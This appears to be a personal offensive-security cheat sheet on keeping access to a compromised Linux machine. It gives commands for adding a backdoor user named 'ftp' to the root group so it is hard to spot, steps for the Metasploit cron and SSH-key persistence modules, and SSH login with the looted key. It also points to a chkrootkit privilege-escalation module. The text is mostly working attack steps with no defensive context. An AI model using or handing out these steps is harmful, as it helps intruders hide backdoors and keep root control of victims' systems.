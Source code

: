 #### Linux persistance 
- We need to root access to victim machine (mosts cases it required)
- we need meterpreter shell
#### persistance 
##### Method 1

- useradd -m ftp -s /bin/bash [ creating a user,named the user something tricky like  ftp,ssh so that id would be difficult for identify ]
- passwd ftp [for setting password of user ftp ]
- usermod -aG root ftp [ add the ftp user to root group]
- -
##### method 2
- search platform:linux persistence
- use exploit/linux/local/cron_persistence
- set everything requires 
- run
- try all the persistance  modules

- use post/linux/manage/sshkey_persistance
- set CREATESSHFOLDER true
- set SESSION 4 [ meterpreter root access session ]
- run 
- this will create a ssh
- loot [ to see the path of sshkey ]
- cat the key and and save it attacker local machine
- vim ssh_key [ save the ssh key ]
- chmod 0400 ssh_key [ give permissions ]
- ssh -i ssh_key root@10.12.15.3 [ accessing the target ]



##### Note
- exploit/unix/local/chkrootkit is a module that can be used for root privileges escalation if chkrootkit is running on the target machine
